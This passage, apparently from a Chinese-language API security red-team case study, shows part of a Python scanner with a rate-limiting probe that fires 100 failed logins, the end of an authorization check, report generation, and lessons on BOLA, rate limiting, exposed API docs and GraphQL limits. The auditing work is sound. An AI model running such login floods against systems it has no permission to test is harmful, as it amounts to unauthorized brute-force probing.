                    evidence=f"User B can access User A's resource",
                    remediation="Implement object-level authorization checks"
                ))
    
    async def check_rate_limiting(self):
        """检查速率限制有效性"""
        endpoint = "/api/v1/login"
        responses = []
        
        for i in range(100):
            resp = await self.make_request(endpoint, method="POST",
                data={"username": "test", "password": "wrong"})
            responses.append(resp.status)
        
        rate_limited = any(status == 429 for status in responses)
        if not rate_limited:
            self.issues.append(SecurityIssue(
                title="缺失速率限制",
                severity=Severity.HIGH,
                endpoint=endpoint,
                evidence=f"100 requests without any 429 response",
                remediation="Implement rate limiting at API gateway level"
            ))
    
    def generate_report(self):
        """生成安全报告"""
        report = {
            "scan_date": datetime.now().isoformat(),
            "target": self.base_url,
            "total_issues": len(self.issues),
            "critical": len([i for i in self.issues if i.severity == Severity.CRITICAL]),
            "high": len([i for i in self.issues if i.severity == Severity.HIGH]),
            "medium": len([i for i in self.issues if i.severity == Severity.MEDIUM]),
            "low": len([i for i in self.issues if i.severity == Severity.LOW]),
            "issues": [vars(i) for i in self.issues]
        }
        return report
```

### 关键经验总结

1. **API 安全是全栈问题**：从网关层（速率限制、认证）到应用层（授权检查、输入验证）再到监控层（异常检测、响应），每一层都不可缺失。只靠其中任何一层都无法构建有效的防护体系。

2. **文档即攻击面**：Swagger/OpenAPI 文档在开发阶段有价值，但暴露在生产环境等于给攻击者提供完整的 API 地图。必须在 CI/CD 流程中添加文档访问控制检查。

3. **BOLA 防御需要架构级方案**：IDOR/BOLA 漏洞的根本原因是在资源访问时缺乏统一的授权检查。逐个接口修复效率低下，应构建统一的"授权中间件"，在框架层面强制每个资源端点都经过对象级授权验证。

4. **速率限制必须多维度**：仅基于 IP 的限速是最容易绕过的防御措施。有效的速率限制应同时基于 IP、认证 Token、用户 ID、端点路径等多个维度，且必须在网关层统一执行。

5. **GraphQL 需要特殊防护**：GraphQL 的灵活性是其优势也是风险——深度嵌套查询、内省查询、批量查询都需要专门的限制策略。推荐使用查询复杂度分析器（Query Complexity Analyzer）作为强制门禁。

6. **业务逻辑漏洞无法自动化检测**：价格篡改、竞态条件、负数量等业务逻辑漏洞需要人工测试结合业务知识。自动化工具可以发现技术漏洞，但业务逻辑安全需要安全工程师理解业务规则后手工验证。

***

> **本案例核心结论**：API 安全红蓝对抗的价值不仅在于发现具体的漏洞，更在于暴露企业 API 安全治理体系的系统性缺陷。从资产发现、认证机制、授权模型、输入验证到速率限制，每一个环节都需要专门的安全设计和持续的安全验证。在 API 经济时代，API 安全不再是"加分项"，而是业务连续性的基础保障。
